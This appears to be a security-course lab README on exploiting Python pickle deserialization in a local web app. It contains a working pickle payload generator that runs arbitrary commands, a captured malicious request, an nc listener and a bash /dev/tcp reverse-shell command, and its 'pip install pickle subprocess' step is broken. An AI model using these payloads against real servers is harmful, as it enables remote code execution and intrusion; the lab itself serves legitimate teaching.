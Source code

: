 
# Deserialization Lab 🧪🧬

In this lab we will dive into the world of Deserialization. You will have to exploit a web application that is vulnerable to Deserialization. This website deserializes a cookie for you. To learn what Deserialization is and how to exploit it you will have a couple of objectives.

## Lab Objectives 🎯

1. **Install Burp Suite:**: Install Burp Suite and configure your browser to use it.
2. **Install wireshark:**: Install wireshark and capture the request that is sent to the server.
3. **Capture the request:**: Capture the request that is sent to the server.
4. **Change the payload:**: Change the payload to execute a command on the server.
5. **Confirm you have access:**: Confirm you have access to the server.
6. **Insert a reverse shell:**: Insert a reverse shell into the payload.
7. **Connect to the server:**: Connect to the server using the reverse shell.

## Instructions 📝

### Chapter 1: Installing Burp Suite

Install Burp Suite and configure your browser to use it. [Download Burp Suite](https://portswigger.net/burp/documentation/desktop/getting-started/download-and-install)

### Chapter 2: Installing Wireshark

Install Wireshark. [Download Wireshark](https://www.wireshark.org/download.html)

### Chapter 3: Capturing the request

First Open Burpsuite. Then capture the request that is sent to the server when you click on the `Add Grade` button. [capture the request](https://portswigger.net/burp/documentation/desktop/getting-started/intercepting-http-traffic)

### Chapter 4: Changing the payload

You see that the request looks something like this:

```
POST /add_grade HTTP/1.1
Host: 127.0.0.1:8989
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://127.0.0.1:8989/
Content-Type: application/x-www-form-urlencoded
Content-Length: 127
Origin: http://127.0.0.1:8989
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

student=gASVOQAAAAAAAACMCnN1YnByb2Nlc3OUjAVQb3BlbpSTlCiMBHBpbmeUjAc4LjguOC44lIwCLWOUjAE1lHSUhZRSlC4=&subject=Mathematik&grade=1
```

Now we need to change the payload to execute a command on the server. Master hacker Rashia Eisi has written you a python script to write a reverse shell into the payload:

```python
import pickle
import subprocess
import base64

class Payload:
    def __reduce__(self):
        user_cmd = input("Enter the command you want to execute: ").strip()
        cmd = user_cmd.split(' ')
        return (subprocess.Popen, (cmd,))

def create_payload():
    serialized_payload = pickle.dumps(Payload())
    encoded_payload = base64.b64encode(serialized_payload).decode()
    print(f"Base64 Encoded Payload: {encoded_payload}")

def test_payload():
    p = input("Enter the base64-encoded payload: ")
    data = base64.b64decode(p)
    print("Attempting to deserialize payload...")
    try:
        pickle.loads(data)
    except Exception as e:
        print(f"Error deserializing payload: {e}")

def main():
    choice = input("Do you want to (create) a payload or (test) a payload? Enter 'create' or 'test': ").strip().lower()
    if choice == 'create':
        create_payload()
    elif choice == 'test':
        test_payload()
    else:
        print("Invalid choice. Please enter 'create' or 'test'.")

if __name__ == "__main__":
    main()
```

The script needs a couple dependencies to work. You can install them with the following command:

```bash
pip install pickle subprocess
```

Copy this into a file and use this script to generate a payload. Find out the current ip of your machine and create a payload with pinging your machine. You can use the script above like this to generate a payload:

```bash
❯ python3 payload.py
Do you want to (create) a payload or (test) a payload? Enter 'create' or 'test': create
Enter the command you want to execute: ping <my ip> -c 5
Base64 Encoded Payload: <output>
```

You can use the test option to test if the payload is working.

You can put the payload into the student field.

### Chapter 5: Confirming you have access

Now we open wireshark and set the selection to pings.

<Question questionNr={1} />

Normally this should be empty before you do anything. Now we forward the request to the server and see if we get a request.

Now we see the origin IP Adress of the server. If you see a request from the server, you have access to the server. Show this in your lab.

### Chapter 6: Inserting a reverse shell

Now we need to start a listener on our machine. You can do this with the following command:

```bash
nc -lvp 2222
```

Now create a payload for the reverse shell. You can use the provided script script to generate a payload which contains this command:

```bash
❯ bash -c 'bash -i >& /dev/tcp/<YOUR-IP>/2222 0>&1'
```

### Chapter 7: Connecting to the server

Now when you execute this command on the server you should get a reverse shell. You can do this by putting the payload into the student field. Then the nc listeners turns into a shell on your machine which is connected to the server.(basically like ssh)

There is a flag file in the /app directory.

<Question questionNr={2} />

## 🎉🎉🎉🎉 Congratulations! 🎉🎉🎉🎉

You have successfully hacked the server. You are now a master hacker. 🎩🎩🎩 Submit the Correct awnsers with your account visible in the screenshots to complete the lab.
